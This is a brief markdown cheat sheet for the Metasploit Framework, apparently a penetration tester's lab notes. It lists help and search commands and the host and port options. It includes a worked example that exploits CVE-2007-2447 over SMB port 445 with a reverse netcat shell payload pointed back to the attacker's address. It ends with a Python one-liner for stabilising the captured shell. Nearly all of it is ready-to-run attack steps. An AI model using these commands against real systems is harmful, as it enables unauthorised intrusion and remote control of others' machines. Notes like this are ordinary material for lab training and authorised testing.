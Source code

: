 # Metasploit Framework
```
/usr/share/kali-menu/helper-scripts/metasploit-framework.sh
```

## Getting Help on Commands
```
msf6> help
```

## Searching for Exploits
```
msf6> search <term>
```

## Common Commands
```
set RHOST <ip_address>
set LHOST <ip_address>
set RPORT <port_number>
set LPORT <port_number>
```

## Example
```
search CVE-2007-2447
use 0
set payload cmd/unix/reverse_netcat
set LHOST 10.10.14.12
set RHOST 10.10.10.3
set RPORT 445
```

## Shell Stabalization
```
python -c 'import pty; pty.spawn("bash")'
```